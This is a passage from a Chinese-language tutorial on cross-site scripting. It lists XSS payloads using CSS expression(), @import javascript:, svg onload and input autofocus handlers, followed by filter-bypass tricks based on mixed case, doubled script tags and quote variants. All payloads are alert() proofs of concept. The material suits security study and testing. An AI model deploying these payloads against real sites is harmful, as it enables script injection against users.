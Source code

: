 ```
<div style="width:expression(alert(/xss/))">
<style>Body{backgroud-image:expression(alert(/xss/));}</style>
@import
<style>@import 'javascript:alert("xss")';</style>
<style type="text/css">@import url(xss.css);</style><div>HELLO</div>
```



### 4.1.5、其它标签的使用

```
<svg onload="alert(/xss/)">    svg是h5的标签，onload也是事件，提交即触发
<input onfocus=alert(xss/) autofocus>    onfocus也为事件，聚焦（当光标放到目标）即触发
```



## 4.2、绕过方法

### 4.2.1、大小写绕过

html语言对大小写不敏感，无论是大小写，该语言都认为是同一个函数；

但是JS语言对大小写敏感，比如alert()函数，如果改为Alert()，JS语言则认为是另一个东西。

```
<Img sRc='#' Onerror="alert(/xss/)">
<A Href="javaScript:alert(/xss/)">touch me</a>
```



### 4.2.2、双写绕过

过滤器仅进行一次过滤时并将一些关键字过滤为空，则可以使用双写绕过。

```
<scr<script>ipt>alert(/xss/)</scr</script>ipt>
```



### 4.2.3、使用引号

HTML语言中对引号的使用不敏感，但是有些过滤函数对引号比较敏感，因此可以使用不同引号来闭合XSS语句。

```
<img src="#" onerror="alert(/xss/)">
<img src='#' onerror='alert(/xss/)'>
<img src=# onerror=alert(/xss/)>
```



### 4.2.4、代替空格

使用 `/`代替空格
